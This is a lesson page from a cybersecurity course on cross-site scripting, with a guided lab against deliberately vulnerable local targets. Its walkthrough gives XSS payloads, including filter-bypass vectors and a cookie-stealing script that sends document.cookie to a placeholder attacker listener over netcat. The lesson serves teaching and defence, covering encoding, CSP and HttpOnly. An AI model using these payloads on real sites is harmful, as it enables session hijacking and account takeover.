

<!-- SPDX-License-Identifier: GPL-3.0-or-later | Copyright (C) 2026 Nithees Narendra S -->
[Home](../../README.md) › [Vulnerabilities](README.md) › **Cross-Site Scripting**

# Cross-Site Scripting

Reflected, stored and DOM sinks, contexts, encoding rules and the modern XSS defence stack.

<div class="meta-row"><span class="badge b-intermediate">Intermediate</span><span class="badge">⌨ ~72 min hands-on</span><span class="badge">📖 ~24 min read</span><button id="lesson-complete" class="lesson-check"><span class="lbl">Mark complete</span></button></div>

**▶ Here to build, not read? Jump to the [Hands-On Practice](#hands-on-practice).**

**Prerequisites:** [HTTP for Security Testing](../03-web-security/http-protocol.md) · [JavaScript](../00-foundations/javascript.md) · [Browser Security Model](../03-web-security/browser-security-model.md)

## Overview

Cross-site scripting is code/data confusion in the browser. A web page is a mix of markup
the developer wrote and data the application inserts; when attacker-controlled data is inserted into the page
without being kept strictly as data, the browser parses part of it as HTML or JavaScript and runs it. Because
that script executes in the victim's session, with the victim's origin and cookies, it can do anything the
victim can do: read the DOM, make authenticated requests, steal tokens, or rewrite the page.

The crucial idea is **output context**. The same input is dangerous or harmless depending on *where* it lands:
inside HTML text, inside an attribute, inside a `<script>` block, inside a URL, or inside a CSS value. Correct
defence is therefore contextual output encoding — encoding the data for the exact place it is written — plus,
increasingly, structural defences (auto-escaping template engines, Content Security Policy, and Trusted Types)
that make the unsafe pattern hard to write in the first place.

### How it works

XSS comes in three shapes distinguished by *where the injection lives*:

- **Reflected** — the payload is in the request (a query parameter) and is echoed into the immediate
  response. It requires luring the victim to a crafted URL.
- **Stored (persistent)** — the payload is saved server-side (a comment, profile field) and served to every
  viewer. No lure needed; impact is highest.
- **DOM-based** — the vulnerability is entirely client-side: JavaScript reads a *source* (`location.hash`,
  `document.referrer`) and writes it to a *sink* (`innerHTML`, `eval`, `document.write`) without sanitising.
  The server may never see the payload at all.

In every case the payload succeeds only because it reaches a parsing context that treats it as code. Track the
data from source to sink and identify the context at the sink — that is the whole analysis.



<div class="card"><div class="card-title">🔑 Key terms</div>

- **Source** — A place attacker-controlled data enters the page (URL, form field, postMessage, storage).
- **Sink** — A place data is written such that it can execute (`innerHTML`, `eval`, `setAttribute('href', ...)`).
- **Context** — Where output lands: HTML text, attribute, JS string, URL, or CSS — each needs different encoding.
- **Polyglot** — A payload crafted to fire across several contexts at once.
- **CSP** — Content Security Policy — a response header that restricts which scripts may run, mitigating XSS impact.
- **Trusted Types** — A browser feature that forces DOM sinks to receive vetted, typed values instead of raw strings.

</div>

> [!EXAMPLE] **In the wild.** **British Airways (2018).** A Magecart group injected ~22 lines of malicious JavaScript into
BA's payment page (a client-side script-integrity failure closely related to XSS), skimming ~380,000 card
details. The lesson for the XSS family: client-side code and third-party scripts are part of your attack
surface, and CSP + Subresource Integrity are load-bearing controls, not nice-to-haves.

## Hands-On Practice

> [!TIP] This is the main event. Bring up the lab, then work the walkthrough — every command has a **▸ Run** button (needs the lab runner) and a **📋 Copy** button. ~72 min, Kali attacker, fully local.

**Mission.** Fire reflected, stored and DOM XSS, escalate to a cookie-steal against a listener you control, then kill it with encoding + CSP.

```cf-lab
{"title": "Vulnerabilities", "section": "04-vulnerabilities", "targets": [["bWAPP / DVWA / Juice Shop", "the web bug targets (see the Web Security part environment)"], ["pwn-box", "Ubuntu build/debug container for buffer/heap/format-string labs"]], "compose": "# vuln-lab/docker-compose.yml  —  Vulnerabilities part environment\nservices:\n  bwapp:\n    image: raesene/bwapp\n    ports: [\"8081:80\"]\n    networks: [labnet]\n  dvwa:\n    image: vulnerables/web-dvwa\n    ports: [\"8082:80\"]\n    networks: [labnet]\n  pwn-box:\n    image: ubuntu:22.04\n    container_name: pwn-box\n    cap_add: [\"SYS_PTRACE\"]          # allow gdb inside the container\n    security_opt: [\"seccomp=unconfined\"]\n    command: sleep infinity\n    networks: [labnet]\n\nnetworks:\n  labnet:\n    driver: bridge"}
```

**Target for this lesson:** Juice Shop http://localhost:8083 (reflected + DOM) and bWAPP (stored). Full setup: [Vulnerabilities lab environment](README.md#lab-environment).

### Guided walkthrough

<div class="stepper">

```cf-step
{"n": 1, "goal": "Reflected: probe the search box", "cmd": "http://localhost:8083/#/search?q=<script>alert(document.domain)</script>", "output": "An alert box shows the origin — your script ran in the page.", "why": "Input reached an HTML context unescaped; the browser parsed it as code.", "runnable": false}
```
```cf-step
{"n": 2, "goal": "Inspect the context", "cmd": "# view source around the reflection", "output": "Your payload sits inside the page's HTML body, unencoded.", "why": "The correct fix depends on *where* it lands — here, HTML-body encoding.", "runnable": false}
```
```cf-step
{"n": 3, "goal": "Stored: persist a payload (bWAPP)", "cmd": "# bWAPP → XSS - Stored (Blog): submit  <script>alert('stored')</script>", "output": "Every visitor to the blog page now triggers the alert.", "why": "Stored XSS needs no lure and hits every viewer — highest impact.", "runnable": false}
```
```cf-step
{"n": 4, "goal": "DOM: source → sink", "cmd": "http://localhost:8083/#/...  (value flows from location.hash into innerHTML)", "output": "The payload executes without the server ever seeing it.", "why": "DOM XSS is a client-side dataflow bug; server-side encoding won't help.", "runnable": false}
```
```cf-step
{"n": 5, "goal": "Escalate impact (lab)", "cmd": "nc -lvnp 9001   # then inject: <script>new Image().src='http://KALI:9001/c='+document.cookie</script>", "output": "Your listener receives a request containing the victim cookie.", "why": "This is why XSS is 'session takeover', not 'just a popup'.", "runnable": true}
```
```cf-step
{"n": 6, "goal": "Fix and re-test", "cmd": "# output-encode for context; add: Content-Security-Policy: script-src 'self'; set HttpOnly cookies", "output": "Payloads now render as inert text; CSP blocks inline script; cookie is invisible to JS.", "why": "Encoding stops injection; CSP + HttpOnly limit blast radius when something slips through.", "runnable": false}
```

</div>

### Live terminal

```cf-terminal
{"title": "kali@xss — start the lab runner for a live shell"}
```

### Try it yourself

> [!NOTE] Try each for real. Open the hint only when stuck, the solution only to check.

**Challenge 1.** Get an XSS to fire *without* the string `script` (Juice Shop filters it).

<details><summary>Hint</summary>

Event handlers don't need <script>.

</details>
<details><summary>Solution</summary>

`` or `<svg onload=alert(1)>`

</details>

**Challenge 2.** Find the Juice Shop DOM XSS and explain the exact source and sink.

<details><summary>Hint</summary>

Use the browser devtools; trace a URL fragment into a DOM write.

</details>
<details><summary>Solution</summary>

The search/track params flow into Angular/innerHTML sinks; DOM Invader (Burp) automates finding it.

</details>

**Challenge 3.** Write a CSP that would have blocked your reflected payload but still allows the app to work.

<details><summary>Hint</summary>

Avoid `unsafe-inline`; use a nonce or 'self'.

</details>
<details><summary>Solution</summary>

`Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'`

</details>

### Quick quiz

```cf-quiz
{"q": "The app strips the string `script`. Which payload still fires?", "options": ["<script>alert(1)</script>", "", "&lt;script&gt;alert(1)", "alert(1)"], "answer": 1, "explain": "Event handlers like onerror execute JS without a <script> tag, so blacklisting 'script' is not a fix."}
```
```cf-quiz
{"q": "Which cookie flag most directly blunts XSS-based session theft?", "options": ["Secure", "SameSite", "HttpOnly", "Domain"], "answer": 2, "explain": "HttpOnly hides the cookie from document.cookie, so injected JavaScript can't read and exfiltrate it."}
```

### Detect & defend (blue-team view)

- In the proxy history, spot the outbound request to your listener — that exfil call is the hunt signal.
- A CSP in report-only mode logs violations; feed those reports to your SIEM as an XSS tripwire.

### Skills check

You can move on when you can, without notes:

- [ ] Trigger reflected, stored and DOM XSS and name the sink/context of each.
- [ ] Demonstrate real impact (cookie theft) safely against your own listener.
- [ ] Deploy context-aware encoding, CSP and HttpOnly and verify each payload is neutralised.

### Going deeper — Context-aware encoding — the core defence

There is no single "XSS escape". Encode for the sink:

| Context | Example sink | Correct handling |
| --- | --- | --- |
| HTML text | `<div>DATA</div>` | HTML-entity encode `< > & "` |
| HTML attribute | `` | Attribute-encode; always quote attributes |
| JavaScript string | `var x = "DATA"` | JS-string encode, or better, serialise as JSON in a data attribute |
| URL | `<a href="DATA">` | URL-encode and validate the scheme (block `javascript:`) |
| CSS | `style="width:DATA"` | Avoid; if unavoidable, strict allow-list |

Prefer framework auto-escaping (React escapes by default; the danger is `dangerouslySetInnerHTML`). For rich
HTML that must be rendered, sanitise with a vetted library (DOMPurify) — never a hand-rolled regex.


### Going deeper — Structural defences: CSP and Trusted Types

Encoding stops the injection; CSP and Trusted Types
limit the damage when encoding is missed somewhere.

A strict, nonce-based CSP neutralises most reflected/stored XSS by refusing to run inline or unlisted scripts:

```
Content-Security-Policy: script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'none'
```

Trusted Types attacks DOM XSS at the sink: with `require-trusted-types-for 'script'`, assigning a raw string
to `innerHTML` throws unless it passed through a policy you defined. Combine both with `HttpOnly` +
`Secure` + `SameSite` cookies so that even a successful XSS cannot trivially steal the session.


## Check Yourself

_Quick self-test — answers hidden. If you can't answer without notes, redo the relevant walkthrough step._

**Q1. In one sentence, what security problem does Cross-Site Scripting address or create?**

<details><summary>Show answer</summary>

Cross-Site Scripting matters because its behaviour determines where trust is placed; misplacing that trust is the root of the associated bug class.

</details>

**Q2. Name one trust boundary involved in Cross-Site Scripting and what crosses it.**

<details><summary>Show answer</summary>

Any point where attacker-influenced data meets privileged processing — e.g. user input reaching an interpreter, or a token reaching a verifier.

</details>

**Q3. Give one attack against Cross-Site Scripting and the single control that most reduces its impact.**

<details><summary>Show answer</summary>

State the attack precisely, then the *primary* control (validation, encoding, isolation, authentication, or least privilege) — not a laundry list.

</details>

**Interview angles**

- Walk me through how Cross-Site Scripting works, then tell me where you would attack it.
- How would you detect Cross-Site Scripting being abused in an environment you defend?
- What is the difference between mitigating and eliminating the risk associated with Cross-Site Scripting?

## Pitfalls & Best Practice

**Common mistakes**

- Blacklisting `<script>` — dozens of other vectors (event handlers, `javascript:` URLs, `<svg onload>`) remain.
- Encoding for the wrong context (HTML-encoding a value that lands inside a JS string).
- Sanitising on input only — the same value may be rendered in multiple contexts later.
- Using a regex to 'clean' HTML instead of a real sanitiser.
- Treating DOM XSS as a server problem — the server may never see the payload.

**Do this instead**

- Encode output for its exact context; lean on a template engine that auto-escapes by default.
- Deploy a strict, nonce-based CSP and add Trusted Types for DOM sinks.
- Set HttpOnly, Secure and SameSite on session cookies to blunt token theft.
- Sanitise rich HTML with a maintained library (DOMPurify), never bespoke filtering.
- Add automated tests that inject context-specific payloads at every sink.

## Reference

### MITRE ATT&CK Mapping

| Technique | ID |
| --- | --- |
| ATT&CK technique | [T1059.007](https://attack.mitre.org/techniques/T1059/007/) |

### OWASP Mapping

- [A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)

### CWE Mapping

| CWE | Weakness |
| --- | --- |
| [CWE-79](https://cwe.mitre.org/data/definitions/79.html) | Improper Neutralization of Input During Web Page Generation |

### CAPEC Mapping

| CAPEC | Attack pattern |
| --- | --- |
| [CAPEC-63](https://capec.mitre.org/data/definitions/63.html) | Cross-Site Scripting |
| [CAPEC-591](https://capec.mitre.org/data/definitions/591.html) | Reflected XSS |
| [CAPEC-592](https://capec.mitre.org/data/definitions/592.html) | Stored XSS |

### CVE References

- No canonical CVE for a concept page. Search the [NVD](https://nvd.nist.gov/) for concrete instances when studying real cases.

### NIST References

- [NIST CSRC Publications](https://csrc.nist.gov/publications) — search for the control family or guide relevant to this topic.

### RFC References

- No governing RFC for this topic. Where a protocol is involved, its RFC is linked from the relevant networking chapter.

### Research Papers

- *Reflections on Trusting Trust* — Ken Thompson, 1984
- *Smashing the Stack for Fun and Profit* — Aleph One, Phrack 49, 1996
- *The Protection of Information in Computer Systems* — Saltzer & Schroeder, 1975

### Books

- *The Web Application Hacker's Handbook, 2nd ed.* — Stuttard & Pinto
- *Real-World Bug Hunting* — Peter Yaworski
- *The Tangled Web* — Michal Zalewski
- *Web Security for Developers* — Malcolm McDonald

### Official Documentation

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

### Related Chapters

- [Content Security Policy](../03-web-security/csp.md)
- [DOM-Based XSS](dom-xss.md)
- [Stored XSS](stored-xss.md)
- [Browser Security Model](../03-web-security/browser-security-model.md)
- [Client-Side Security](../03-web-security/client-side-security.md)
- [Vulnerability Taxonomy](vulnerability-taxonomy.md)

---

_Part of the **Vulnerabilities** section of [Cybersecurity-Mastery](../../README.md). 🟡 Intermediate · ~72 min hands-on · Last updated 2026-08-13._
